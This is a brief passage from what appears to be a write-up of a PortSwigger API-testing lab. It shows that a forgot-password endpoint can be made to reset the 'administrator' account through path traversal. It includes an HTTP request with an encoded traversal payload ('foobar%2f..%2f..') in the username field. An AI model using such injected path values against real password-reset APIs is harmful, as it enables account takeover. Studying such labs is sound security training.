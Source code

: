 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510190443.png)

Nice! We can trigger a reset password on account `administrator` via path traversal!

**Now, what if I traverse back to the root of the path (`/`)?**
```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2f
```

